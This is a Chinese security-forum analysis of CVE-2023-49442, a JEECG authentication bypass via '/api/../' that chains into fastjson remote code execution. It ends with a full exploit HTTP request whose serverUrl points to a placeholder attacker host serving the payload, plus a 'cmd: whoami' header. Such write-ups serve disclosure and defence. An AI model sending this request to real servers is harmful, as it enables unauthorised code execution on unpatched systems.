 

# JEECG 代码执行漏洞-CVE-2023-49442 - 先知社区

JEECG 代码执行漏洞-CVE-2023-49442

- - -

# JEECG 代码执行漏洞分析-CVE-2023-49442

## 漏洞描述

JEECG 4.0 及之前版本中，由于接口鉴权时未过滤路径遍历，攻击者可构造 url 绕过鉴权，攻击者可构造恶意请求利用 jeecgFormDemoController.do?interfaceTest 接口进行远程代码执行

## 影响版本

-   <= 4.0

## 漏洞分析

根据 jeecgFormDemoController.do?interfaceTest 定位漏洞代码

[![](assets/1705890745-0d647010498ef502c1dc04a35344c9fd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140531-c070f8da-b690-1.png)  
可以看到接受 3 个参数：serverUrl、requestBody、requestMethod，然后根据 requestMethod 的值调用 HttpRequest.sendPost 或 HttpRequest.sendGet  
这 2 个方法的区别就是发送 get 或 post 请求，请求传入的 serverUrl

[![](assets/1705890745-586f0fd0e9ebef1a8f667420f43d8e1f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140548-cabf8626-b690-1.png)

[![](assets/1705890745-e7b09ad57f0c2be796454e209f9ae4c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140600-d1fb026c-b690-1.png)  
之后获取请求结果，调用 JSONObject.parseObject(result)

[![](assets/1705890745-809f8f2ea942f64f6f7a8272d7d83340.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140618-dc278706-b690-1.png)  
因为这里使用的是 fastjson

[![](assets/1705890745-eff3e417a1f577a1e16ada17ddad1da7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140630-e3a9f2a2-b690-1.png)  
并且其版本为 1.2.31，为漏洞版本

[![](assets/1705890745-2cf1f83811912470ae211433e126dd16.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140648-ee575de8-b690-1.png)  
所以我们只要构造 serverUrl 回显的内容为 fastjson 代码执行的 payload 即可  
但实际直接访问该路由是会 302 跳转的，应该是拦截器做了限制

[![](assets/1705890745-29c44c6988c9df1b4de32d7e41af5e59.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140704-f7a29732-b690-1.png)  
观看代码，可以发现 api 接口，是不做限制的，只要以/api/开头就行

[![](assets/1705890745-5d0c0fad5a495241aa4409ac801b5c63.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140717-ff53ed46-b690-1.png)  
又因为其 alwaysUseFullPath 为值 false，在处理过程中会对 uri 进行标准化处理，所以我们可以利用/api/../的形式来进行绕过

[![](assets/1705890745-46c4cf819576394224cec1d37b8a958a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140733-09526ce6-b691-1.png)

```plain
/api/../jeecgFormDemoController.do?interfaceTest=
```

[![](assets/1705890745-dc24161fa886aef7c8a8cd42e87a0545.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140747-11c3979c-b691-1.png)

## 漏洞利用

创建如下远程文件，其内容为 fastjson 代码执行的 payload

[![](assets/1705890745-34c15cf098b7d272b40d3f92fc9f5363.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140812-206d70b0-b691-1.png)  
发送如下请求包

```plain
POST /api/../jeecgFormDemoController.do?interfaceTest= HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
cmd: whoami
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 77

serverUrl=http://xxxxxxxx:8877/jeecg.txt&requestBody=1&requestMethod=GET
```

漏洞利用成功

[![](assets/1705890745-6adef62ebf933bc5ca1d0b182200909d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119140845-33e30a88-b691-1.png)

## 参考链接

[https://avd.aliyun.com/detail?id=AVD-2023-49442](https://avd.aliyun.com/detail?id=AVD-2023-49442)
